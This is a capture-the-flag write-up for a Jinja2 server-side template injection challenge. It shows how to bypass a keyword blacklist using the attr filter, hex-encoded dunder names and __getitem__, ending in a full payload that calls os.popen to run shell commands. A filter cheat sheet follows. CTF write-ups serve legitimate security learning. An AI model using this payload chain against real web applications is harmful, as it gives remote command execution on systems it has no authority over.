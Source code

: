 ## 📝 SSTI2 Challenge Walkthrough

In this challenge, we’re dealing with a **Server-Side Template Injection (SSTI)** vulnerability—but with heavy input filtering.

---

### Step 1: Confirm SSTI

We start by testing whether SSTI is possible:

```jinja2
{{ 7*7 }}
```

It returns 49, so SSTI is enabled.

---

### Step 2: Bypassing Keyword Blacklisting

Trying a textbook payload:

```jinja2
{{ "".__class__.__base__.__subclasses__() }}
```

...results in an error: “stop trying to break me”.

This means keywords like `class`, `base`, `subclasses`, and even `""` (an empty string) are blacklisted.

I tried using a custom string like `"idk"` instead of `""`:

```jinja2
{{ idk.__class__ }}
```

...but even that failed due to the sanitization.

Attempts like:
- Unicode/hex encoding `__class__`
- URL-encoding newline characters
- POSTing a newline

...all failed due to filters and sandbox constraints.

---

### Step 3: Exploring Filters & `attr`

I noticed that:

```jinja2
{{ idk | }}
```

...does not trigger an error, meaning filters are allowed.

So what are filters in Flask Jinja2?

Filters are built-in functions in Jinja2 that let you modify or format data before it's rendered in the template. They're used inside double curly braces like this:

```jinja2
{{ variable | filter_name }}
```

You can even pass arguments to them:

```jinja2
{{ variable | filter_name(arg1, arg2) }}
```

They’re super helpful for cleaning up, transforming, or accessing data without writing any Python code in your backend. For example:
- `{{ "HELLO" | lower }}` becomes `"hello"`
- `{{ mylist | length }}` gives the number of items
- `{{ user | default("Guest") }}` shows `"Guest"` if `user` is undefined

In this challenge, filters aren’t just for formatting — they’re a way to sneak around input filters. That’s where `attr()` came in clutch: it let us access blocked attributes like `__class__` using their string names (which we hex-encoded to avoid detection).

So I dug into filter functions and found the holy grail: `attr`.

> `attr` allows you to dynamically access an attribute of an object using a string.

But directly accessing blacklisted attributes like `__class__` still failed:

```jinja2
{{ idk | attr("__class__") }}
```

So I hex-encoded it:

```jinja2
{{ idk | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') }}
```

Success! We got the class.

I continued by hex-encoding the rest of the chain:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded
}}
```

---

### Step 4: Finding the `warnings.catch_warnings` Class

In the output of `__subclasses__()`, I looked for `warnings.catch_warnings` (a known trick, since its `__init__` uses `sys.modules` which gives us access to the os module --> open a shell).

You can look for its existence using a chatgpt or deepseek or another method that i strongly recommend since ai never gave me the right index 😅, is to use python and here is what i always use:

```python
# something.txt should contain all the subclasses
with open('something.txt') as p:
    check = p.read()
for index,value in enumerate(check.split(',')):
    if "<class 'warnings.catch_warnings'>" in value:
        print(index)
```

It existed! At index 221.

But this didn't work:

```jinja2
(...subclasses__())[221]
```

Why? Because:
- `[]` is blacklisted
- Calling functions (`()`) often triggers errors in sandboxed environments

---

### 💡 Step 5: Bypassing with `__getitem__`

Instead of using `[]`, I used:

```jinja2
| attr('__getitem__')(221)
```

That works because:
> `__getitem__` lets us simulate `obj[221]` without using square brackets.
in Jinja2, the attr filter (also called attribute) is used to dynamically access an attribute of an object by name (as a string). It’s useful when the attribute name is stored in a variable or constructed dynamically.


Here’s the full, chained payload:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded, we can't index/call the warnings subclass so we use getitem
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')(221) # __getitem__ hex encoded and we get the 221th item which is the warning subclass
  | attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f') # __init__ hex encoded to call the init method
  | attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f') # __globals__ to access the global variable, we can't access the sys variable directly here so we use getitem again
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('sys') #  __getitem__ hex encoded and we get the sys variable
  | attr('modules') # we access its modules (which contains os), we can't access the os module directly because we're calling a function and calling a function triggers an error
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('os') # so we use getitem again!, __getitem__ hex encoded
  | attr('popen')('cat flag') # accessing the popen function to opne a shell and execute "cat flag" (i executed ls first and then when i saw the flag.txt i cat'ed it)
  | attr('read')() # and here so we can see the output of the popen
}}
```

---

### Step 6: Get the Flag

Paste the full payload into the form input, and...

BOOM — you get the flag:

```bash
picoCTF{... redacted ...}
```

---

## 🧰 Useful Jinja2 Filters for SSTI & Exploitation

Here’s a mini cheatsheet of filters that are particularly useful in SSTI/CTF contexts:

| Filter         | Purpose                                         |
|----------------|-------------------------------------------------|
| `attr()`       | Dynamically access attributes like `__class__`  |
| `e` / `escape` | Escape HTML (sometimes bypasses filters)        |
| `safe`         | Mark string as safe (no escaping)               |
| `default()`    | Provide fallback values to avoid breaking logic |
| `length`       | Get length of iterable (can test logic flow)    |
| `join`         | Concatenate strings from a list (may help with payload shaping) |
| `replace`      | Modify strings mid-template (bypass filters)    |

---

> Just look at that payload... it’s a masterpiece. 
> If you’ve reached this point and understood the entire chain — 🫡. 

